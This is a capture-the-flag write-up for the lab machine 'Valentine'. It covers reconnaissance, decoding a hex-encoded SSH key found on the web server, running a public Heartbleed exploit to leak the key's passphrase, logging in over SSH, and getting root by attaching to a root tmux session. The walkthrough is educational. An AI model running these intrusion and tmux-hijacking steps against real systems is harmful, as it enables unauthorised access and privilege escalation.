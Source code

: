 # Valentine

# Recon

`nmap -sCV -T4 -A -oN nmap 10.10.10.79`

![Untitled](images/Untitled.png)

Strange version for SSH, add the valentine.htb to hosts file

`echo -e '10.10.10.79\tvalentine.htb' >> /etc/hosts`

## Web

### Directory Discovery

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u [http://valentine.htb/FUZZ](http://valentine.htb/FUZZ) -fl 2`

![Untitled](images/Untitled%201.png)

**Dev Directory**

![Untitled](images/Untitled%202.png)

`Note.txt`

![Untitled](images/Untitled%203.png)

Decode the `hype_key` from Hexadecimal

![Untitled](images/Untitled%204.png)

Save it to a file

### Exploiting

After some time searching found that its vulnerable to `heartbleed` and when the exploit completed found some string

`python2 32745.py 10.10.10.79`

![Untitled](images/Untitled%205.png)

Decoding the string

`heartbleedbelievethehype`

![Untitled](images/Untitled%206.png)

SSH Into the machine using the key, if you didn’t change the permissions of your key do this command

`chmod 600 hype_key`

Connect using the key and the passfrase

`ssh -i hype_key hype@valentine.htb`

In my case i had some error on the ssh so i had to put that entire command

`ssh -o PubKeyAcceptedKeyTypes=ssh-rsa -i hype_key hype@valentine.htb`

![Untitled](images/Untitled%207.png)

## Privilege Escalation

### TMUX

On our history we find this `tmux` command

![Untitled](images/Untitled%208.png)

And found this article on hacktricks

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#tmux-sessions-hijacking](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#tmux-sessions-hijacking)

Lets check if its running on the background

`ps aux | grep tmux`

![Untitled](images/Untitled%209.png)

List it

`tmux -S /.devs/dev_sess ls`

![Untitled](images/Untitled%2010.png)

We can verify that we have some permissions inside the socket

![Untitled](images/Untitled%2011.png)

By doing this command we get root access it attaches using a non-default tmux socket

`tmux -S /tmp/dev_sess attach -t 0`

![Untitled](images/Untitled%2012.png)
